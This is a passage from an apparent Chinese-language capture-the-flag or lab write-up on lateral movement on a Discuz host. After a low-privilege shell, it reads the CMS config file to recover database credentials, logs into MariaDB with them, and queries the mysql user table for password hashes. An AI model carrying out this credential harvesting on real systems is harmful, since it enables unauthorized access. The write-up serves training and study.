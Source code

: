 # **三、横向移动**

## **1. 数据库凭据发现**

当前我们是 `www-data` 用户，权限较低。首先，我们在系统中进行信息收集，寻找可以横向移动到其他用户的线索。在 `/home` 目录下，发现了一个名为 `discuz` 的用户。

```shell
www-data@Chat2:/var/www/html$ cd /home/
www-data@Chat2:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Aug  3 09:28 .
drwxr-xr-x 18 root   root   4096 Mar 18 20:37 ..
drwxr-xr-x  2 discuz discuz 4096 Aug  3 09:46 discuz
```

由于这是一个CMS应用，数据库配置文件通常包含了高权限的数据库用户凭据。我们在网站根目录 `/var/www/html/config/` 下找到了配置文件 `config_global.php`。

```shell
www-data@Chat2:/var/www/html/config$ cat config_global.php
...
$_config['db'][1]['dbhost'] = '127.0.0.1';
$_config['db'][1]['dbuser'] = 'discuz_user';
$_config['db'][1]['dbpw'] = 'StrongPassword!123';
...
```

## **2. 数据库信息挖掘**

我们找到了数据库用户 `discuz_user` 和密码 `StrongPassword!123`。使用该凭据连接本地的MariaDB数据库。

```shell
www-data@Chat2:/var/www/html/config$ mysql -u discuz_user -p'StrongPassword!123'
...
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| discuz_db          |
| information_schema |
| mysql              |
+--------------------+
```

在 `discuz_db` 数据库的 `maze_ucenter_members` 表中，我们只发现了之前登录Web后台的admin用户哈希，这对横向移动没有帮助。

于是，我们将目光转向了 `mysql` 这个系统数据库，它存储了数据库的所有用户信息。

```shell
MariaDB [discuz_db]> use mysql;
Database changed
MariaDB [mysql]> select user, host, password from user;
...
```
